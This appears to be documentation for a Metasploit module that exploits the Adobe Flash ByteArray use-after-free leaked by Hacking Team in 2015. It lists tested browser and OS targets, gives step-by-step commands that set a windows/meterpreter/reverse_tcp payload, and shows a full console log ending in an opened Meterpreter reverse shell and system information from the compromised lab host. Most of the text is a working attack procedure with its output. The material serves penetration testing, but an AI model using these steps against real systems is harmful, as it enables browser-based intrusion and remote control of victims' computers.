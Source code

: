 ## Description

This module exploits an use after free on Adobe Flash Player. The vulnerability, discovered by Hacking Team and made public as part of the July 2015 data leak, was described as an Use After Free while handling ByteArray objects. This module has been tested successfully on:
1. Windows 7 SP1 (32-bit), IE11 and Adobe Flash 18.0.0.194.
2. Windows 7 SP1 (32-bit), Firefox 38.0.5 and Adobe Flash 18.0.0.194.
3. Windows 8.1 (32-bit), IE11 and Adobe Flash 18.0.0.194.
4. Windows 8.1 (32-bit), Firefox and Adobe Flash 18.0.0.194.
5. Linux Mint "Rebecca" (32 bits), Firefox 33.0 and Adobe Flash 11.2.202.468.

## Verification Steps

1. Do: ```use exploit/multi/browser/adobe_flash_hacking_team_uaf```
2. Do: ```set payload windows/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set SRVHOST [IP]```
3. Do: ```set URIPATH / [PATH]```
4. Do: ```run```

## Sample Output

```
msf > use exploit/multi/browser/adobe_flash_hacking_team_uaf 
msf exploit(adobe_flash_hacking_team_uaf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(adobe_flash_hacking_team_uaf) > set LHOST 172.16.178.160
LHOST => 172.16.178.160
msf exploit(adobe_flash_hacking_team_uaf) > set srvhost 172.16.178.80
srvhost => 172.16.178.80
msf exploit(adobe_flash_hacking_team_uaf) > set SRVPORT 80
SRVPORT => 80
msf exploit(adobe_flash_hacking_team_uaf) > set URIPATH /
URIPATH => /
msf exploit(adobe_flash_hacking_team_uaf) > exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.178.160:4444 
[*] Using URL: http://0.0.0.0:80/
msf exploit(adobe_flash_hacking_team_uaf) > [*] Local IP: http://127.0.0.1:80/
[*] Server started.

msf exploit(adobe_flash_hacking_team_uaf) > 
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Gathering target information.
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Sending HTML response.
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Request: /rGaaQS/
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Sending HTML...
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Request: /rGaaQS/AsvCG.swf
[*] 172.16.178.80   adobe_flash_hacking_team_uaf - Sending SWF...
[*] Sending stage (957999 bytes) to 172.16.178.80
[*] Meterpreter session 1 opened (172.16.178.160:4444 -> 172.16.178.80:49167) at 2017-03-26 22:51:29 +0900

msf exploit(adobe_flash_hacking_team_uaf) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : WIN7X64TJ7XH-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64 (Current Process is WOW64)
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
```
